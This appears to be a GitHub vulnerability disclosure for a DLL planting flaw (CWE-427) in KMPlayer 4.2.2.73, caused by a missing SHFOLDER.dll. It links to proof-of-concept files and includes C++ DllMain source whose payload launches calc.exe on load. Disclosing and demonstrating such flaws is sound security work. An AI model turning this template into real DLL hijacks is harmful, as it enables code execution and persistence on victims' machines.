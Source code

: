 # KMPlayer_Poc

## The name of an affected Product
KMPlayer x32

## Affected Version
KMPlayer_4.2.2.73(Latest)

## Product Address: 
https://www.kmplayer.com/pc

## Description
SHFOLDER.dll is missing so an attacker can use a malicious dll with same name and can get a admin privileges and also perform a way of persistence on the victim machine.

## Vulnerability type
CWE-427: Uncontrolled Search Path Element

## DLL planting vulnerability type
Current Working Directory (CWD) DLL planting 

## Impact
An attacker could exploit this vulnerability by placing a malicious DLL file on the targeted system. This file will execute when the vulnerable application launches. A successful exploit could allow the attacker to execute arbitrary code on the targeted system with SYSTEM PRIVILEGES as well the attacker can maintain persistence on the target system.

## POC files address
https://drive.google.com/file/d/1bdYaDmtWhnjaHkzv3bZ4PUSMzDJ8JjSV/view?usp=sharing
```bash
kmp32# tree
.
├── KMPlayer_4.2.2.73.exe
├── KMPlayer_poc.mp4
└── SHFOLDER.dll

```

## Poc source code
```C++
// dllmain.cpp
#include "pch.h"
#include <stdlib.h>

BOOL APIENTRY DllMain(HMODULE hModule,
    DWORD  ul_reason_for_call,
    LPVOID lpReserved
)
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
        system("calc.exe");
        break;
    case DLL_THREAD_ATTACH:
        break;
    case DLL_THREAD_DETACH:
        break;
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```
